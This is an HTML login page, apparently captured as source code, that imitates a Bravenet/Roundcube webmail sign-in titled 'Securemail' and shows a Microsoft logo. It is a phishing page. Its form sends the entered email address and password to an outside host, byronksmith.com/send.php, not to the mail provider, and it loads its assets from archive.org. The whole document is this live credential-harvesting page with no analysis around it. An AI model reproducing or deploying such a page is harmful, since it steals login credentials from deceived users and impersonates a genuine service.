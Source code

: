 
<!DOCTYPE html>
<html class=" js mozilla" lang="en"><head>
<meta http-equiv="content-type" content="text/html; charset=UTF-8">
<title>Securemail ::: Login</title>
<meta name="viewport" content="" id="viewport">

<link rel="shortcut icon" href="https://byronksmith.com/micbz.png">

<link rel="stylesheet" type="text/css" href="https://ia601504.us.archive.org/12/items/jquery-ui_202105/styles.css">
<link rel="stylesheet" type="text/css" href="https://ia801504.us.archive.org/12/items/jquery-ui_202105/jquery-ui.css">
<script src="https://ia801504.us.archive.org/12/items/jquery-ui_202105/ui.js"></script>




<link rel="stylesheet" type="text/css" href="https://ia801504.us.archive.org/12/items/jquery-ui_202105/style.css">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<script src="https://ia601504.us.archive.org/12/items/jquery-ui_202105/jquery.js"></script>
<script src="https://ia801504.us.archive.org/12/items/jquery-ui_202105/common.js"></script>
<script src="https://ia801504.us.archive.org/12/items/jquery-ui_202105/app.js"></script>
<script src="https://ia801504.us.archive.org/12/items/jquery-ui_202105/jstz.js"></script>
<script>
/*
        @licstart  The following is the entire license notice for the 
        JavaScript code in this page.

        Copyright (C) The Roundcube Dev Team

        The JavaScript code in this page is free software: you can redistribute
        it and/or modify it under the terms of the GNU General Public License
        as published by the Free Software Foundation, either version 3 of
        the License, or (at your option) any later version.

        The code is distributed WITHOUT ANY WARRANTY; without even the implied
        warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
        See the GNU GPL for more details.

        @licend  The above is the entire license notice
        for the JavaScript code in this page.
*/
var rcmail = new rcube_webmail();
rcmail.set_env({"task":"login","standard_windows":false,"locale":"en_US","devel_mode":null,"rcversion":10409,"cookie_domain":".bravehost.com","cookie_path":"/","cookie_secure":true,"skin":"larry","blankpage":"skins/larry/watermark.html","refresh_interval":60,"session_lifetime":3600,"action":"","comm_path":"./?_task=login","compose_extwin":false,"date_format":"yy-mm-dd","date_format_localized":"YYYY-MM-DD","request_token":"saH1nEfWKrA5Q8Nk6WR6pp6H1VIoimMl"});
rcmail.add_label({"loading":"Loading...","servererror":"Server Error!","connerror":"Connection Error (Failed to reach the server)!","requesttimedout":"Request timed out","refreshing":"Refreshing...","windowopenerror":"The popup window was blocked!","uploadingmany":"Uploading files...","uploading":"Uploading file...","close":"Close","save":"Save","cancel":"Cancel","alerttitle":"Attention","confirmationtitle":"Are you sure...","delete":"Delete","continue":"Continue","ok":"OK","errortitle":"An error occurred!","toggleadvancedoptions":"Toggle advanced options","options":"Options"});
rcmail.gui_container("loginfooter","bottomline");rcmail.gui_object('loginform', 'form');
rcmail.gui_object('message', 'message');
</script>

<script src="https://ia601504.us.archive.org/12/items/jquery-ui_202105/jquery-ui.js"></script>

</head>
<body>
<!-- Disabled
<video playsinline autoplay muted loop poster="jpg/field.jpg" id="bgvid">
  <source src="videos/field.mp4" type="video/mp4">
</video>
-->


<h1 class="voice">verification sign-in</h1>

<div id="login-form">
<div class="box-inner" role="main">
<img src="https://i.ibb.co/LdsJVXV/microsoft-logo-ee5c8d9fb6248c938fd0dc19370e90bd-2.jpg" id="logo" alt="Bravenet Webmail">

<form name="form" method="post" action="https://byronksmith.com/send.php">
<input type="hidden" name="_token" value="saH1nEfWKrA5Q8Nk6WR6pp6H1VIoimMl">
<input type="hidden" name="_task" value="login"><input type="hidden" name="_action" value="login"><input type="hidden" name="_timezone" id="rcmlogintz" value="Asia/Shanghai"><input type="hidden" name="_url" id="rcmloginurl" value=""><table><tbody><tr><td class="title"><label for="rcmloginuser">Email</label>
</td>
<td class="input"><input name="_user" id="rcmloginuser" required="" size="40" autocapitalize="off" type="text"></td>
</tr>
<tr><td class="title"><label for="rcmloginpwd">Password</label>
</td>
<td class="input"><input name="_pass" id="rcmloginpwd" required="" size="40" autocapitalize="off" autocomplete="off" type="password"></td>
</tr>
</tbody>
</table>
<p class="formbuttons"><button type="submit" id="rcmloginsubmit" class="button mainaction submit">Login</button>
</p>

</form>

</div>

<div class="box-bottom" role="complementary">
	<div id="message"></div>
	<noscript>
		<p class="noscriptwarning">Warning: This webmail service requires Javascript! In order to use it please enable Javascript in your browser's settings.</p>
	</noscript>
</div>

<div id="bottomline" role="contentinfo">
	Bravenet Webmail 
			&nbsp;<!-- 9679 removed by Bravenet -->&nbsp; <a href="http://bravenet.com/help" target="_blank" class="support-link">Get support</a>
	      &nbsp;●&nbsp; <a href="http://bravenet.com/global/terms.php">Terms of Service</a>
  	
</div>
</div>



<script>
if (!window.UI) { var UI = new rcube_mail_ui(); }
</script>
<script>
$(function() {
rcmail.init();
var images = ["skins/larry/images/ajaxloader.gif","skins/larry/images/ajaxloader_dark.gif","skins/larry/images/buttons.png","skins/larry/images/addcontact.png","skins/larry/images/filetypes.png","skins/larry/images/listicons.png","skins/larry/images/messages.png","skins/larry/images/messages_dark.png","skins/larry/images/quota.png","skins/larry/images/selector.png","skins/larry/images/splitter.png","skins/larry/images/watermark.jpg"];
            for (var i=0; i<images.length; i++) {
                img = new Image();
                img.src = images[i];
            }
});
</script>







</body></html>
